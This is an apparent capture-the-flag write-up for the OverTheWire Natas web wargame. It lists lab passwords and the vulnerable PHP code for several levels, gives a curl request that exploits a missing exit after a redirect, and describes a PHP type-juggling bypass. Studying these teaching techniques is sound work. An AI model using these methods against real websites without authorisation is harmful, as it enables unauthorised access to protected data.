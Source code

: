 ```yaml
---
title: "[OTW] Natas Write-Up"
permalink: /writeups/otw/natas/
layout: single
sidebar:
  nav: natas
---
```


#### Natas 00 Solution

___
**URL :** <http://natas0.natas.labs.overthewire.org/> \
**Credentials :**

The password for the next level can be found as a comment in the html body.
```html
<body>
    <h1>natas0</h1>
    <div id="content">
        You can find the password for the next level on this page.
        <!--The password for natas1 is 0nzCigAq7t2iALyvU9xcHlYN4MlkIwlq -->
    </div>
</body>
```

#### Natas 01 Solution

___
**URL :** <http://natas1.natas.labs.overthewire.org/> \
**Credentials :** *natas1:0nzCigAq7t2iALyvU9xcHlYN4MlkIwlq*

Right clicking on the page was disabled so we couldn't simply right click and 'inspect element'. Luckily, cmd + shift + u also gives you access to developer tools. Just like the previous level, the password for the next level was in the html body. 
```html
<!--The password for natas2 is TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI-->
```

#### Natas 02 Solution

___
**URL :** <http://natas2.natas.labs.overthewire.org/> \
**Credentials :** *natas2:TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI*

This time the password was no longer simply a comment in the html body, but instead we're given an img element. 
```html
<body>
    <h1>natas2</h1>
    <div id="content">
        There is nothing on this page
        <img src="files/pixel.png">
    </div>
</body>
```
Following the src destination, I noticed the url changed to http://natas2.natas.labs.overthewire.org/files/pixel.png which made me wonder if there was anything at http://natas2.natas.labs.overthewire.org/files.

![Index file](/assets/images/02-1.png)

Following users.txt, reveals the password for the next level.
```html
# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```

#### Natas 22 Solution

___

```php
<?php
session_start();

if (array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if (!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
      header("Location: /");
    }
}
?>
```

```php
<?php
    if (array_key_exists("revelio", $_GET)) {
        print "You are an admin. The credentials for the next level are:<br>";
        print "<pre>Username: natas23\n";
        print "Password: <censored></pre>";
    }
?>
```

```curl -u natas22:d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz 'http://natas22.natas.labs.overthewire.org/index.php?revelio'```

#### Natas 23 Solution

```php
<?php
    if (array_key_exists("passwd",$_REQUEST)) {
        if (strstr($_REQUEST["passwd"],"iloveyou") && ($_REQUEST["passwd"] > 10 )) {
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas24 Password: <censored></pre>";
        }
        else {
            echo "<br>Wrong!<br>";
        }
    }
    // morla / 10111
?>
```
Had to search up what strstr did
Tried xxiloveyouxx
Assumed the input had to be > 10 characters in length
15iloveyou
